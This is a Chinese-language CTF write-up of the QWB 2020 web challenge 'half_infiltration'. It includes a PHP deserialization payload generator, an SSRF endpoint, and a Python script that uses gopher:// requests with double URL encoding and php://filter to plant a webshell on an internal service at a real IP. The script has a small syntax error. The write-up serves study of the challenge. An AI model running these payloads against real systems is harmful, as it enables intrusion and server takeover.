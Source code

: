 ```yaml
---
title: qwb2020web复现
author: ch3n9w
date: 2020-08-27 20:48:12
categories: CTF
typora-root-url: ../
cover:
  image: image-20211114141959846.png
---
```


## half_infiltration

开局的页面如下

```php
<?php
highlight_file(__FILE__);

$flag=file_get_contents('ssrf.php');

class Pass
{


    function read()
    {
        ob_start();
        global $result;
        print $result;

    }
}

class User
{
    public $age,$sex,$num;

    function __destruct()
    {
        $student = $this->age;
        $boy = $this->sex;
        $a = $this->num;
    $student->$boy();
    if(!(is_string($a)) ||!(is_string($boy)) || !(is_object($student)))
    {
        ob_end_clean();
        exit();
    }
    global $$a;
    $result=$GLOBALS['flag'];
        ob_end_clean();
    }
}

if (isset($_GET['x'])) {
    unserialize($_GET['x'])->get_it();
} 

```

思路是进行两次反序列化, 第一次将$_GLOBALS['flag']赋值给全局变量$result, 第二次反序列化是让程序在``ob_end_clean()``执行之前报错退出. ``ob_start``会打开输出缓冲

> 启用输出缓冲会导致PHP开始存储你输出的脚本而不是立即将它们发送到客户端。当脚本结束或者你调用了ob_flush()函数，PHP才会将内容发送到客户端。

``ob_end_clean``会将输出缓冲的内容进行一个清空, 那么如果要看到$result的内容的话, 我们就需要在``ob_end_clean``之前退出程序. 通过将$a赋值为this可以做到让程序报错退出.

```php
<?php

class Pass{
    function read(){
	// ob_start();
	global $result;
	print $result;
    }
}

class User{
    public $age, $sex, $num;
    function __construct($a, $b, $c)
    {
	$this->age = $a;
	$this->sex = $b;
	$this->num = $c;
    }
}
echo urlencode(serialize([
    new User(new Pass(), "read", "result"),
    new User(new Pass(), "read", "this")
    ]));

?>

```

然后我们可以看到ssrf.php的内容

```php
<?php 
//经过扫描确认35000以下端口以及50000以上端口不存在任何内网服务,请继续渗透内网
    $url = $_GET['we_have_done_ssrf_here_could_you_help_to_continue_it'] ?? false; 
	if(preg_match("/flag|var|apache|conf|proc|log/i" ,$url)){
		die("");
	}

	if($url)
    { 

            $ch = curl_init(); 
            curl_setopt($ch, CURLOPT_URL, $url); 
            curl_setopt($ch, CURLOPT_HEADER, 1);
            curl_exec($ch);
            curl_close($ch); 

     } 

?>
```

扫描发现

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/

有东西

```html
HTTP/1.1 200 OK
Date: Thu, 27 Aug 2020 13:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=60uap1c9tcik5f1ivmqqp933g2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1121
Content-Type: text/html; charset=UTF-8



<!DOCTYPE html>
<html>

<head>
	<title>Message Board</title>
	<link rel="stylesheet" href="css/bootstrap.min.css" />
</head>

<body>
	<div class="container" style="text-align:center;vertical-align:middle;">

		<div class="row" style="text-align:center;vertical-align:middle;">
			<h1>Message Board </h1>
		</div>
		<div class="row">
			<br><br>
			<p class="lead">
				Since there is only one administrator, a person can only submit one opinion at a time.
				Each time a new opinion is submitted, all old comments will be deleted
				<br><br>
                </p>
		</div>

		<br>

		<div class="row" style="text-align:center;vertical-align:middle;">

			<form method="POST" class="form-inline">
				<div class="form-group">
					<input class='form-control' type="text" name="file">
	</div>
					<div class='panel-body'>
						<textarea class='form-control' name='content' rows='6'></textarea>
						<br>
						<br>
						<div class="form-group">
							<button type="submit" class='btn btn-default col-md-2 form-control' value="Submit">Submit</button>
						</div>




			</form>

		</div>
```

同时

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/

可以访问, 那么这里应该是上传东西到目录下面了.这里使用gopher协议来发送post上传文件, 这里依然会有一个过滤, 包括等号在内的几种符号和字母组合都被过滤了,使用二次编码协议来绕过. 

```php
import requests
from urllib.parse import urlencode, quote_plus, quote

url0 = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=gopher://127.0.0.1:40000/_"

upload_data = {
    'file':'php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php',
    'content':'UEQ4OVlHTmhkQ0F2Wm14aFoyQTc' # 似乎可以正常解密的base64都无法写入文件中
}
upload_data = urlencode(upload_data, quote_via=quote_plus)
print(upload_data)

gopher_content = '''POST / HTTP/1.1
Host: 127.0.0.1:40000
Cookie: PHPSESSID=hhhhhhhhhhhhhhhhhhhhhhhaaa;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {length}

{data}'''.format(length = len(upload_data), data=upload_data).replace('\n', '\r\n')


#  ssrf need double url encode
url = url0 + quote(quote(gopher_content))

header = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}

while True:
    requests.get(url, headers=header)

validate = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/hhhhhhhhhhhhhhhhhhhhhhhaaa/shell.php

res = requests.get(validate)
print(res.content)

```

![image-20211114142011268](image-20211114142011268.png)
